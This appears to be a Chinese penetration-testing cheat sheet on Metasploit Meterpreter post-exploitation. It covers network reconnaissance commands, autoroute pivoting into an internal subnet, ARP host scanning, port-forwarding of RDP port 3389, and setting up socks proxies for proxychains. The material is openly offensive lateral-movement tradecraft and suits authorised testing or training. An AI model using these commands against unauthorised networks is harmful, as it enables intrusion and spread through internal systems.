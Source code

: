 **网络命令**
```bash
Ipconfig/ifconfig                   # 查看目标主机 IP 地址;
arp -a                              # 用于查看高速缓存中的所有项目;
route                               # 打印路由信息;
netstat -na                         # 可以显示所有连接的端口
```

其中路由信息对于渗透者来说特有用,因为攻击机处于外网,目标主机处于内网,他们之间是不能通信的,故需要添加路由来把攻击机的 IP 添加到内网里面,这样我们就可以横扫内网,就是所谓的内网代理.

首先我们需要获取网段,然后再添加路由,添加成功后就可以横向扫描内网主机.
```bash
run get_local_subnets                   # 获取网段
run autoroute -s 192.168.205.1/24       # 添加路由
run autoroute -p                        # 查看路由
run autoroute -d -s 172.2.175.0         # 删除网段
run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24   # 探测该网段下的存活主机.
meterpreter > background                # 后台 sessions
```

或者自动化
```bash
use post/multi/manage/autoroute
set session 1
exploit
```

**portfwd**

portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令参数.
```bash
portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.3 的 3389 端口转发到本地的 2222 端口.
    -l:本地监听端口
    -r:内网目标的 ip
    -p:内网目标的端口

portfwd delete -l [port]
portfwd list


例如:
portfwd add -l 3389 -r 192.168.161.138 -p 3389
```

**pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测.
```bash
route add [ip] [mask] [session id]      # 添加一个路由
route print

如果其它程序需要访问这个内网环境,就可以建立 socks 代理
msf 提供了3个模块用来做 socks 代理.
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST:监听的 ip 地址,默认为 0.0.0.0,一般不需要更改.
SRVPORT:监听的端口,默认为 1080.
直接运行 run 命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用.
```

---